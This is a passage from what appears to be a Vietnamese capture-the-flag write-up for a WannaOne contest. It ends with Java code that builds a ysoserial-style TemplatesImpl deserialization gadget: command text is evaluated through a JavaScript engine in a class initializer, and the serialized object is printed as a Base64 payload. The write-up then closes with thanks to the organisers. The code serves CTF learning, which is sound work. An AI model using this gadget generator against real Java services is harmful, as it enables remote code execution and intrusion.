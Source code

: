 ```java


    public static <T> T createTemplatesImpl ( final String js_code, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(Gadgets.StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(Gadgets.StubTransletPayload.class.getName());
        // run command in static initializer
        String cmd = "(new javax.script.ScriptEngineManager()).getEngineByName(\"JavaScript\").eval(\"" +
            js_code.replace("\\", "\\\\").replace("\"", "\\\"") +
            "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Gadgets.Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }

    public static void main(final String[] args) throws Exception {
        UIT_RCE obj = new UIT_RCE();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj.getObject("CMD"));
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
    }
}
```

## Lời kết

Cảm ơn WannaOne đã tạo ra một cuộc thi vào dịp cuối năm như này để em có thể ôn tập lại những cái đã học được và học được thêm những điều mới. Cảm ơn `n3mo#8312`, `Duy#2437` và `petrusviet#1788` đã tạo ra những challenge web hay và thú vị. Hi vọng WannaOne sẽ duy trì và phát triển cuộc thi hơn cho các năm tới. 